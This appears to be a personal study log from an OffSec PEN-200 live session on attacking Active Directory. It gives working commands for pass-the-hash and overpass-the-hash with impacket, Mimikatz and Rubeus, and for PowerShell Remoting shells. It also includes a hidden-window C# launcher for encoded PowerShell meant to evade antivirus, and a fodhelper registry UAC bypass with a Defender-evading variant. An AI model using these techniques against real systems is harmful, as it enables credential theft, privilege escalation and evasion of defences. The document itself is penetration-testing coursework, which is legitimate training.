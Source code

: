 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-09-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-09-02-offsec-live-pen-200.html
author: 100007
---
```


# OffSec Live: PEN-200

**author:** Nathan Acks  
**date:** 2022-09-02

# Active Directory Enumeration & Exploitation, Part 4

LM hashes aren’t used in WIndows anymore, and often empty or garbage values will work fine when passing a full NTLM hash (only the NT hash is important).

```
proxychains python3 \
/usr/share/doc/python3-impacket/examples/psexec.py \
-hashes ${LM_HASH}:${NT_HASH} ${USER}@${MACHINE}
```

There’s a technique called “overpass the hash” that allows you to take advantage of accounts that are authorized to interact with services but _not_ machines on a domain. The idea behind overpass-the-hash is to request a ticket from the domain controller for one user but then use that as the authentication credentials for a different user when running a command. This allows you to be logged in as, say, a service account but then use the credentials for a domain admin to interact with the domain controller. Stealthy!

```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NT_HASH /run:$COMMAND"'
```

Note that the “NTLM” hash in the Mimikatz command line is actually just the NT hash.

Another reason to use overpass-the-hash is to be able to interact with services that are restricted to certain users who do _not_ have login permissions. This is a common(ish) technique for securing services on a domain.

Note that whenever an overpass-the-hash attack, the output of whoami will become desynced to your network credentials - whoami will still show the user you’re logged into, but the domain credentials you use on the network will be those of the user whose hash you “overpassed”.

Rubeus can be used to _remove_ tickets from an account.

```
Rubeus.exe purge
```

You can also use Rubeus to grab new tickets from a domain controller for a user in an overpass-the-hash attack.

```
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NT_HASH /ptt
```

Note that Rubeus is generally detected by Windows AV these days.

The whole point of all of this is that when interacting with remote computers in an Active Directory domain, what matters is the _hash_ you present, _not_ the local user!

Many large companies will enable PowerShell Remoting on all machines in order to ease IT support burdens (by default, remoting is only enabled on domain controllers).

```
Invoke-Command -ComputerName $MACHINE `
 -ScriptBlock {$COMMANDS_TO_RUN}
```

Remoting can be used to create a reverse shell.

```
$SESSION_NAME = New-PSSession -ComputerName "$MACHINE"
Enter-PSSession -Session $SESSION_NAME
```

You need to be logged in as a user with permission to use PowerShell for remote administration, however, or be using overpass-the-hash to get an equivalent set of credentials.

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don’t have to tweak this code much - C# analysis doesn’t seem to be particularly robust for most AV products.)

```
using System;
namespace Game
{
public class Program
{
public static void Main() {
System.Diagnostics.Process P = new System.Diagnostics.Process();
System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
SI.FileName = "powershell.exe";
SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
P.StartInfo = SI;
P.Start();
}
}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What’s the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you’re impersonating with overpass-the-hash (this is a way of getting a shell on a machine that you can interact with, but aren’t allowed to open a shell on directly).

```
$code = @"
using System;
namespace Game
{
public class Program
{
public static void Main() {
System.Diagnostics.Process P = new System.Diagnostics.Process();
System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
SI.FileName = "powershell.exe";
SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
P.StartInfo = SI;
P.Start();
}
}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

The fodhelper binary can be abused to gain an admin shell on Windows boxes with two registry key changes.

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe"
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

Note that if you try to put powershell.exe into this, Defender will block the shell from being opened (in fact, the key value will be cleared on run). Other AV tools will even detect cmd.exe. It looks like this can be bypassed, however, by using the CurVer registry key to point fodhelper.exe to a different registry location:

```
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
 -Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\CurVer" `
 -Name "(default)" -value ".pwn" -Force
```

- [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
